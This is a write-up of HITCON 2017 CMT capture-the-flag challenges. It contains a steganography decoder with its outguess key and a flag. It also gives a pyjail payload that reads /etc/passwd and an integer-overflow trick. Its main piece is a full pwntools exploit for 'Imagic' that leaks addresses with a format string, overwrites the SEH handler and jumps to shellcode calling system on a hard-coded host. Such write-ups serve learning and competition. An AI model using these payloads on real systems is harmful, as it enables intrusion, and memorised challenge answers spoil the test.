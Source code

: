 # HITCON 2017 CMT Writeup

## MISC
### Hello world
`HITCON{Hack the planet !}`
### Stegofun4u

- decode.py

```
#!/usr/bin/python
from PIL import Image
data = ""
im = Image.open("./en.png")
pix = im.load()
width, height = im.size
encode_image = Image.new("RGB",(width,height))
newpix = encode_image.load()
x,y = (0,0)

count = 0
for i in range(x,width,1):
        for j in range(y,height,1):
                data += str((pix[i,j][0] & 0x2) >> 1) + str(pix[i,j][1] & 0x1) + str((pix[i,j][2] & 0x4) >> 2)

data_raw =  ''.join(chr(int(data[i*8:i*8+8],2)) for i in range(len(data)//8))
f = open("solve.jpg","w")
f.write(data_raw)
```
Then you will get the picture.
![](solve.jpg)

The picture is a little corruption, you need to fixed it.
That is, the end of jpg is 0xffd9.

After fixed it, use outguess and the key `sh3llw3pl4yth3g4m4` to extract the flag.

### Pyjail
Use the warnings message
`sys.modules['_warnings'].warn_explicit("default",UserWarning,"/etc/passwd",1)`

## Pwnable

### Power Station
It's a little captcha challenge and it has a integer overflow vulnerability in time out function

```
void sig_alarm_handler(int signum){
    unsigned int choice ;
    puts("Power failure");
    printf("Do you want to continue ? (1:yes 2:no)");
    choice = read_int();
    if(choice == 1){
        puts("You lost a little power");
        power -= 50;
        return;
    }else{
        exit(1);
    }
}
```
You can let the power less than 50 and wait until time out, you would get a very large power.

You can let power equal to 2000 and buy Nuclear reactor and Solar cell panel than your power will less than 50.


### Imagic
- Vulnerability 
	- Out of bound and buffer overflow in save image.
	- Format string

- Protection
	- Stack cookie 
	- No DEP
	- NO SEHOP,SafeSeh 

- Exploit
	- First connection 
		- Use format string vulnerability to leak code base 
	- Second connection 
		- Overwrite the SEH Handler
		- Trigger the SEH and jmp to shellcode

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

host = "54.199.221.215"
port = 50216
r = remote(host,port)
r.recvuntil(":")
r.sendline("#%p#")
r.recvuntil(":")
r.sendline("3")
r.recvuntil("#")
codeaddr = int(r.recvuntil("#")[:-1],16)
r.close()
r = remote(host,port)
codebase = codeaddr-0x19610
sc = asm("pop eax;pop eax;pop eax;sub eax,0x40;jmp eax",arch="i386")
name = "%s%s%s%s" + sc
nameaddr = codebase + 0x1c2ac
ret = codebase + 0x1281
system = codebase + 0x1260
scaddr = codebase+0x1c2b4
cmd = codebase + 0x14ab4
main = codebase+0x10e0
r.recvuntil(":")
r.send(name)


def save(size,data):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(data)

save(255,"a"*254)
save(255,"b"*254)
save(255,"c"*254)
save(255,"d"*254)
sc = asm("push 0x%x;mov eax,0x%x;jmp eax" % (cmd,system),arch="i386")
payload = "\x90"*0x30 + sc
save(255,payload.ljust(0x60,"\x90") + p32(scaddr))
r.recvuntil(":")
r.sendline("3")
r.interactive()
```
